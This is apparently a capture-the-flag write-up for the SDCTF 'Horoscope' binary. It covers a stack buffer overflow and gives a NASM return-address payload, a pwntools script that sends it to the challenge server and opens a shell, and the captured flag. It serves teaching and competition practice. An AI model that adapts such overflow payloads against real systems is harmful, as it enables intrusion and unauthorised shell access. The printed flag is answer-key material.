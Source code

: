 # Horoscope
`checksec` output:<br>
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
The binary is static with partial relro and no stack canary.<br>
Looking at the decompiled code in `ghidra`:
```c
undefined8 main(void) {
    char local_38 [48];
    puts("Welcome to SDCTF\'s very own text based horoscope");
    puts("please put in your birthday and time in the format (month/day/year/time) and we will have you r very own horoscope");
    fflush(stdout);
    fgets(local_38,0x140,stdin);
    processInput(local_38);
    return 0;
}
```
It is obvious that this is a buffer overflow attack. The program allows the user to read 320 bytes into a 48 byte buffer.<br>
In the binary there were two functions:<br>
`debug` at static address `0x40096e`
```c
void debug(void) {
    temp = 1;
    return;
}
```
`test` at static address `0x400950`
```c
void test(void) {
    if (temp == 1) {
        system("/bin/sh");
    }
    return;
}
```
To exploit this binary overflow the buffer and overwrite the return address with the address of debug followed by the address of test.
```x86asm
db "1/1/1/1"       ; needed to pass processInput function
times 49 db "A"    ; bytes to fill the buffer
dq 0x40096e        ; address of debug
dq 0x400950        ; address of test
db 0x0a            ; ending newline or netcat will not send the data
```
compiled with `nasm -f bin payload.asm -o payload.bin`<br>
```python
from pwn import *;

io = remote("horoscope.sdc.tf", 1337);
io.recv();

file = open("./payload.bin", "rb");
io.send(file.read());
io.recvuntil(b':)');
io.interactive();
```
```
[+] Opening connection to horoscope.sdc.tf on port 1337: Done
[*] Switching to interactive mode
$ ls
flag.txt
horoscope
$ cat flag.txt
sdctf{S33ms_y0ur_h0rO5c0p3_W4s_g00d_1oD4y}
```
## Flag: sdctf{S33ms_y0ur_h0rO5c0p3_W4s_g00d_1oD4y}